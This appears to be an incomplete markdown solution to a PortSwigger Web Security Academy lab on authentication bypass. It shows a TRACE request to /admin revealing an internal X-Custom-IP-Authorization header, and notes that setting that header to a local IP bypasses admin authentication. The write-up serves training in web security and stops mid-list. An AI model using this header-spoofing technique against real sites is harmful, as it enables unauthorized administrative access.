

# [Lab: Authentication bypass via information disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)

This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

---
## Solution

Request
```http
get /admin HTTP/2 -> Trace /admin HTTP/2
```

Response
```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 724

Trace /admin HTTP/1.1
Host: 0a0600c70335c09f8026901d000f0029.web-security-academy.net
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
accept-encoding: gzip, deflate
accept-language: en-US,en;q=0.9
cookie: session=k7tJeXJ0CxYkEVAy9NDOw1ukkGVhKUsN
Content-Length: 0
X-Custom-IP-Authorization: 103.41.25.230
```
- we can see our ip is getting appended
- as it is only displaying page to local users, we can append local ip at the end of every request
- 
  - now visit `/admin`
  - 